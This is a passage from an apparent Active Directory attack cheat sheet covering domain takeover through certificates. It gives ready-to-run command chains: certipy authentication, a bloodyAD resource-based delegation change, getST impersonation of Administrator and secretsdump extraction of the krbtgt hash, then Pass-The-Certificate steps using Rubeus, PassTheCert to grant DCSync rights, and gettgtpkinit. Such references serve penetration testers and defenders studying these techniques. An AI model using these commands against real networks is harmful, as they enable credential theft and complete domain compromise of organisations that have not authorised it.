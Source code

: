 - Either use the pfx or set a RBCD on your machine account to takeover the domain
    
    ```ps1
    certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10
    
    openssl pkcs12 -in dc.pfx -out dc.pem -nodes
    python bloodyAD.py -d lab.local  -c ":dc.pem" -u 'cve$' --host 10.10.10.10 setRbcd 'CVE$' 'CRASHDC$'
    getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'   
    secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
    ```
    

### Pass-The-Certificate

> Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

- Windows
    
    ```ps1
    # Information about a cert file
    certutil -v -dump admin.pfx
    
    # From a Base64 PFX
    Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    
    # Grant DCSync rights to an user
    ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>
    # To restore
    ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
    ```
    
- Linux
    
    ```ps1
    # Base64-encoded PFX certificate (string) (password can be set)
    gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    ​
    # PEM certificate (file) + PEM private key (file)
    gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    